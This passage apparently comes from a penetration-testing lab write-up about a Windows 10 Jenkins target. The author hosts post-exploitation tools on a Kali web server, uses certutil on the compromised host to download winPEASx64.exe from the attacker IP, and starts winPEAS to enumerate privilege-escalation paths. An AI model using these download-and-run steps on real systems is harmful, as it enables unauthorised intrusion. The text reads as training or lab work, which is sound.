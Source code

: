 ~~~
                           [06]: KB5001405
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.138.3
                                 IP address(es)
                                 [01]: 192.168.138.8
                                 [02]: fe80::55b9:d250:339:ffb0
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

~~~
It looks I am working on a Windows 10 Enterprise version and there are some hotfixes installed on the system.
I opened a new shell in my **~/transfer** directory to host a Python web server. This would give me the possibility to host files, so I am able to download them on the target.
~~~
┌──(emvee㉿kali)-[~/transfer]
└─$ ls                                 
LinEnum  linpeas.sh  PEASS-ng  pspy64  winPEASx64.exe
                                                                                                                                                                                                                                            
┌──(emvee㉿kali)-[~/transfer]
└─$ sudo python3 -m http.server 80     
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

~~~
To download a file on the Windows target, it is possible to use the certutil tool, which most of the time is available on a Windows machine. The command that I use looks like this: **certutil.exe -urlcache -f http://192.168.138.4/winPEASx64.exe winPEASx64.exe**


~~~
C:\Program Files\Jenkins>certutil.exe -urlcache -f http://192.168.138.4/winPEASx64.exe winPEASx64.exe
certutil.exe -urlcache -f http://192.168.138.4/winPEASx64.exe winPEASx64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
~~~


Let's start winpeas to see what I can use to escalate my privileges
~~~
C:\Program Files\Jenkins>winPEASx64.exe
winPEASx64.exe
ANSI color bit for Windows is not set. If you are execcuting this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
     
               ((((((((((((((((((((((((((((((((
        (((((((((((((((((((((((((((((((((((((((((((
      ((((((((((((((**********/##########(((((((((((((   
    ((((((((((((********************/#######(((((((((((
    ((((((((******************/@@@@@/****######((((((((((
    ((((((********************@@@@@@@@@@/***,####((((((((((
    (((((********************/@@@@@%@@@@/********##(((((((((
    (((############*********/%@@@@@@@@@/************((((((((
    ((##################(/******/@@@@@/***************((((((
    ((#########################(/**********************(((((
    ((##############################(/*****************(((((
    ((###################################(/************(((((
    ((#######################################(*********(((((
    ((#######(,.***.,(###################(..***.*******(((((
    ((#######*(#####((##################((######/(*****(((((
    ((###################(/***********(##############()(((((
~~~
